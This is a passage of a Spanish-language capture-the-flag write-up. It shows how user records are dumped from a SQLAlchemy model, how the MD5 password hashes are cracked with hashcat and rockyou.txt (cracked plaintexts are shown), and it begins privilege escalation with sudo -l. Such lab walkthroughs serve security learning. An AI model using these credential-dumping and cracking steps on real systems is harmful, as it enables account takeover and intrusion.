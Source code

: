 Se listan todas las variables globales y, entre ellas, se encuentra el objeto `User`. Para confirmar, ejecutamos:

```python
print(dir(User))
``` 

**Salida (fragmento):**

```bash
['__abstract__', '__annotations__', '__class__', ..., 'id', 'username', 'password', 'query', ...]
``` 

Esto confirma que **User** es un modelo de SQLAlchemy y que se puede interactuar con él mediante su atributo `query`.

Creamos entonces un pequeño script para listar los datos de los usuarios:

```python
for u in User.query.all():
    print(u.username, u.password)
``` 

**Resultado obtenido:**

```bash
development 759b74ce43947f5f4c91aeddc3e5bad3
martin 3de6f30c4a09c27fc71932bfc68474be
radega e89674615091bda1a423cf909aeef7e3
``` 

```

## 4. Crackeo de Hashes de Contraseña

Guardamos los hashes extraídos en un fichero llamado `hashes.txt`:

```bash
759b74ce43947f5f4c91aeddc3e5bad3
3de6f30c4a09c27fc71932bfc68474be
e89674615091bda1a423cf909aeef7e3
``` 

Utilizamos **hashcat** para romper los hashes (modo MD5) usando el diccionario `rockyou.txt`:

```bash
hashcat -m 0 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt
``` 

> **Opciones utilizadas:**
> - `-m 0`: Modo para MD5.
> - `-a 0`: Ataque de diccionario (straight mode).

**Resultado (ejemplo):**

```bash
759b74ce43947f5f4c91aeddc3e5bad3:development
3de6f30c4a09c27fc71932bfc68474be:nafeelswordsmaster
``` 

```

## 5. Escalada de Privilegios – Obtención de la User Flag

Verificamos los permisos con el comando:

```bash
sudo -l
``` 
